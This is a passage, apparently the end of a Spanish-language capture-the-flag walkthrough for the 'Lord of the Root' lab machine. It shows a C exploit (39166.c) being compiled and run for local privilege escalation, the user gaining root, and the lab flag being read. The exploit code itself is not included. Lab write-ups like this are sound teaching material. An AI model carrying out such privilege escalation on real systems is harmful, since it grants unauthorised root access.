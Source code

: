 Vamos a usar el script en c, `39166.c`, lo descargamos en la máquina víctima, lo compilamos y ejecutamos, somos root.

```bash
smeagol@LordOfTheRoot:/tmp$ gcc 39166.c -o privesc
smeagol@LordOfTheRoot:/tmp$ ./privesc
root@LordOfTheRoot:/tmp# id
uid=0(root) gid=1000(smeagol) groups=0(root),1000(smeagol)
root@LordOfTheRoot:/tmp# cd /root
root@LordOfTheRoot:/root# ls
Flag.txt  buf  buf.c  other  other.c  switcher.py
root@LordOfTheRoot:/root# cat Flag.txt
“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
– Gandalf
```


Hope it helps!